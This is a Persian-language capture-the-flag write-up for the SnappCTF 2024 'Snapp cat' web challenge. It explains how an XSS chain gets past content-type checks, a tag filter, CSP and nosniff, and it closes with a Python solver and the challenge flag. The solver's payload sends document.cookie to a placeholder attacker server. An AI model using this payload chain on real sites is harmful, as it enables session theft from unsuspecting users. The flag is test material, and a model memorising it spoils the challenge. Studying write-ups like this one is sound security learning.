

---
tags:
  - SnappCTF
  - SnappCTF-2024
  - XSS
  - CSP
  - Web
  - X-Content-Type-Options
  - Content-Type
---

<h1 dir="ltr">Snapp cat</h1>

<center>



</center>

## توضیح حل چالش

کد سرور توی این سوال به ما داده شده و ما میتونیم اونو دانلود کنیم:
```js
#!/usr/bin/env node
const express = require('express')

const app = express()

app.get('/',(req,res)=>{
	let ct = (req.query.ct || 'ct').toString()
	let buf = Buffer.from(((req.query.buf || btoa('?buf=base64str')).toString()),'base64')
	if(!/^[a-z/]+$/.test(ct) || /htm|javascript/i.test(ct)){
		return res.send('na')
	}
	
	if(/<[a-z]/i.test(buf)){
		return res.send('na')
	}	
	res.setHeader('Content-Type',ct)
	res.setHeader('X-Content-Type-Options','nosniff')
	res.setHeader('Content-Security-Policy',`default-src 'self';`)
	res.send(buf)
})

app.listen(8000)
```

همون طور که میبینین سرور از ما دوتا پارامتر (ct, buf) میگیره که ct همون content-type هستش و buf محتوایی هستش که سرور به ما برمیگردونه

قبل از اینکه سرور به ما دیتایی که داریم رو برگردونه ، یک سری ولیدیشن انجام میده مثلا ما نمیتونم از content type (text/html, text/javascript) استفاده کنیم و همینطور توی دیتایی که به عنوان buf بهش میدیم هم نمیتونیم از تگ های html استفاده کنیم

ولی بعد از چند تست و بررسی های content type هایی که میتونیم روش کد جاوااسکریپت اجرا کنیم با این ها مواجه شدم:

```
text/html
application/xhtml+xml
application/xml
text/xml
image/svg+xml
text/xsl
```

و تنها content type هایی که میتونیم استفاده کنیم: text/xml, text/xsl هستش که اینجا من از text/xml استفاده کردم

ولی یه مشکلی بود ، اینکه ما نمیتونیم از تگی استفاده کنیم که حرف اولش بین a-z | A-Z باشه. ولی بعد از سرچ زدن درباره xml متوجه شدم که ما میتونیم از _ (underline) استفاده کنیم به عنوان اسم تگ

پس payload ام شد این:

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml">XSS</_:script>
```

ولی یه مشکلی بود که اصلا حواسم بهش نبود و اون هم content-security-policy بود که نمیزاشت ما از unsafe-inline استفاده کنیم و تنها کاری که میتونستیم اینجا بکنیم این بود که بیایم یک کد جاوااسکریپت از همین origin لوید کنیم

و خب این کار هم میشد با این حرکت انجام داد:

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="?buf=XSS"></_:script>
```

ولی باز هم یک مشکل بود که اون هدر X-Content-Type-Options بود. توی توضیحات این هدر تو سایت [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options) گفته شده که اگه ریکویستی که ما میزنیم ، content type اش با محتوایی که قراره لوید بشه فرق داشته باشه ریکویست بلاک میشه

برای مثال فرض کنین ما content-type رو بزاریم text/css ولی محتوایی که مرورگر لوید میکنه جاوااسکریپت باشه ، که توی این شرایط ریکویست ما بلافاصله بلاک میشه

خب ما نمیتونیم از text/javascript استفاده کنیم چون که قبلش چک میکنه که javascript توی ct نباشه ولی میتونیم از application/ecmascript استفاده کنیم و اینطوری میتونیم x-content-type-options رو دور بزنیم و XSS بگیریم

و در نهایت پیلود ما میشه:
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="?buf=XSS?ct=application/ecmascript"></_:script>
```

برای حل این سوال میتونین از کد زیر استفاده کنین

```python
import requests
import base64
import sys
import html

url = 'https://b64.spchallenge.ir/'

xss_pay = """window.location='https://REDACTED?flag=' + document.cookie"""
pa = "?buf=%s&ct=%s" % (base64.b64encode(xss_pay.encode()).decode(), "application/ecmascript")
p = """<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="%s"></_:script>""" % html.escape(pa)


buffer, ct = base64.b64encode(p.encode()).decode(), "text/xml"
d = requests.get(url, params={'buf':buffer, 'ct': ct})
print(d.url)
```

به جای REDACTED از آدرس سرور خودتون استفاده کنین و بعد از اجرای کد بالا بهتون یه آدرس میده که اون رو میتونین بدین به بات تا فلگ رو براتون بفرسته

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{9a952b93a0f0ad23304547c4de2025fb}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)

